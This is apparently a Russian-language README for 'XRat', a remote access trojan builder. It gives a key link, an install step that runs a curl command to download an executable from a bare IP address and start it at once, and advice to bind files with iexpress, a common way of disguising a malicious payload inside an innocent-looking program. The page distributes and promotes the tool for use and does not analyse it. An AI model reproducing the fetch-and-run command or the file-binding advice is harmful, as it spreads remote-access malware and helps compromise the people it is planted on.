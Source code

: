 # XRat



# ❔Частые вопросы❓
<h2>Где взять ключ?</h2>
- Здесь: https://ify.ac/1ddw

<h2>Как установить билдер и всё необходимое?</h2>
1. Откройте Cmd от имени админа
2. Перейдите в нужную вам папку куда произведётся установка
3. Введите команду 
```bash
curl -O "http://95.31.8.49:5005/download/XRatInstaller.exe" && start XRatInstaller.exe
```
4. Делайте всё по инструкции в установщике
5. После откройте папку и там будут лежать файлы
> Builder.exe
> dotnet_rnt.exe
> XRatInstaller.exe

(Потом можно удалить: > dotnet_rnt.exe и XRatInstaller.exe)

6. Вам нужен только билдер
После установки билдер откроется сам
Обновлять также

<h2>Как склеить файлы?</h2>
1. Открываем cmd
2. Пишем: iexpress
3. Дальше сами, есть много гайдов в инете


<h2>Важное</h2>
# LINKS
> [THEMES](<https://github.com/UndefinedClear/XRat-themes/tree/main>)
# SCRIPTS
> [Releases](<https://github.com/UndefinedClear/XRat/releases/tag/release>)
# Documentation
> [Go to documentation](<https://avirts-organization.gitbook.io/xrat>)
